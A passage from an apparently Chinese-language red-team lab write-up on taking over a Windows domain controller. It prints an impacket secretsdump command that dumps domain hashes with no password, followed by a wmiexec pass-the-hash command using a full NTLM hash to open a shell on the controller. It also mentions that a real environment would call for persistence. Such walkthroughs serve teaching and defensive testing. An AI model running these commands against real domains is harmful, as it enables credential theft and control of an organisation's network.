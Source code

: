   
: 
```
python secretsdump.py redteam.red/OWA$@10.10.10.8 -just-dc -no-pass
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OibgrA7Zr52jjd8mJlIDfTLtqCq4ZvLO0ROTxPcUfVo78xC1wok462Sw/640?wx_fmt=png&from=appmsg "")  
  
获取到的
```
hash
```

  
后利用
```
impacket
```

  
中的
```
wmiexec.py
```

  
脚本进行登录, 成功拿到
```
shell
```

  
: 
```
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:028b70314013e1372797cff51298880e redteam.red/administrator@10.10.10.8 -codec gbk
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OWTr8QO2Y3kWnLw0qV4JTcz3H71HBia00TFib5rCUdfLFEx2Lqmygwp4A/640?wx_fmt=png&from=appmsg "")  
  
此时, 成功获取到了域控的
```
shell
```

  
. 但是这个
```
shell
```

  
并不是稳定的, 真实环境中我们还需要进一步进行权限维持的操作, 在得到
```
hash
```

